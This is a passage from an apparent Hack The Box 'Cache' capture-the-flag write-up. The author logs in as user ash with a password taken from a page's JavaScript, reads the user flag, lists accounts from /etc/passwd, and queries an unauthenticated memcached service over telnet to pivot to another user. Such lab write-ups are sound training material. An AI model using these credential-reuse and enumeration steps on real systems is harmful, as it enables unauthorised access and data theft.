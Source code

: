 From there we can su to user `ash` and use the same password we found earlier on the javascript code for the useless login page.

```
www-data@cache:/var/www/hms.htb/public_html/interface/main$ su -l ash
su -l ash
Password: H@v3_fun

ash@cache:~$ cd
cd
ash@cache:~$ cat user.txt
cat user.txt
d415c4620a9ea235eac89874e513dcb0
ash@cache:~$
```

## Pivot to user luffy

The `/etc/passwd` file contains another user `luffy` but I see there's also a `memcache` user.

```
ash@cache:~$ tail -n 10 /etc/passwd
tail -n 10 /etc/passwd
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
ash:x:1000:1000:ash:/home/ash:/bin/bash
luffy:x:1001:1001:,,,:/home/luffy:/bin/bash
memcache:x:111:114:Memcached,,,:/nonexistent:/bin/false
mysql:x:112:115:MySQL Server,,,:/nonexistent:/bin/false
```

Yup, memcache is running on there.

```
ash@cache:~$ netstat -panut | grep 11211
netstat -panut | grep 11211
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:11211         127.0.0.1:38902         ESTABLISHED -                   
tcp        0      0 127.0.0.1:11211         127.0.0.1:38888         TIME_WAIT   -                   
tcp        0      0 127.0.0.1:38902         127.0.0.1:11211         ESTABLISHED -
```

Memcache doesn't require authentication so we can pull information from the cache just by connecting and sending commands on port 11211. Here we'll get information about the slabs.

```
ash@cache:~$ telnet 127.0.0.1 11211
telnet 127.0.0.1 11211
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
stats slabs
stats slabs
STAT 1:chunk_size 96
STAT 1:chunks_per_page 10922
STAT 1:total_pages 1
STAT 1:total_chunks 10922
STAT 1:used_chunks 5
```